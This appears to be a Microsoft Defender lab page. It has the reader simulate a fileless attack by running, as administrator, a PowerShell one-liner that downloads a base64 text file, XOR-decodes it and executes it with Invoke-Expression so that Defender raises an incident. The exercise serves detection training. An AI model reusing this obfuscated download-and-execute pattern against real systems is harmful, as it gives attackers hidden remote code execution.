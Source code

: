 ## Fileless Attack Incident

### Task 1 - Generating the incident

1. Switch to the client machine
2. Run Windows Powershell as administrator
3. Copy and paste the following text into the PowerShell window and press Enter to run
```console
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
4. Wait for the script to finish running. Notepad should open which you can close manually
![PowerShell Prompt](..//Images/PScode.png)

Example Defender page

![Def](..//Images/ManageIncidents.png)